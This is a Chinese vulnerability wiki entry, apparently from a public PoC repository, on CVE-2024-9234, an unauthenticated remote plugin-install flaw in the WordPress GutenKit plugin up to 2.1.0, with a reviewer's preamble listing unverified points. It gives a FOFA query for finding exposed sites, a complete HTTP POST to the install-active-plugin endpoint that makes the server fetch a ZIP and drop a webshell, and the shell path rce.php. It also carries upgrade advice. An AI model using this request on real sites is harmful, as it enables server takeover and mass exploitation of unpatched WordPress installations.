


## 核对与使用边界

- 测绘字段处置：原 fofa 字段为残缺表达式、错误平台语法或当前解析器不支持的形式，原值完整保留到 fofa_unverified，不把它当作已校验查询或受影响资产证据。正文检索方法保留；具体问题见下列原审阅项。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=2.1.0 claimed; reachable install-active-plugin route, outbound ZIP fetch, plugin directory write/PHP execution; recommended2.1.2

- **结论使用边界（1）**：远程获取地址用127.0.0.1实际上是目标回环，不是测试者VPS，示例须明确。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（2）**：压缩包内部结构只截图而最终路径rce.php，需说明解压根和插件结构。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **证据待核（3）**：frontmatter fofa残缺；在野已知无来源，2.1.1状态未解释。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **证据待核（4）**：核心是缺授权的插件安装/激活，不宜仅归泛化文件写入；请求无代码块。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Wordpress GutenKit 插件 远程文件写入致RCE漏洞(CVE-2024-9234)

# 漏洞描述

Wordpress GutenKit 插件 存在远程文件写入漏洞，未经身份验证的远程攻击者，可利用此漏洞远程加载远程文件上传至系统插件目录，写入后门，获取服务器权限，进而控制整个 web 服务器。

# 影响版本

GutenKit <= 2.1.0

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="wp-content/plugins/gutenkit-blocks-addon"

构造压缩包，上传到测试vps




POC/EXP：

```http
POST /wp-json/gutenkit/v1/install-active-plugin HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

plugin=http://127.0.0.1/rce.zip
```





/wp-content/plugins/rce.php


# 修复方案

关闭互联网暴露面或接口设置访问权限

目前该漏洞已经修复，受影响用户可升级到WordPress GutenKit  2.1.2或更高版本。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
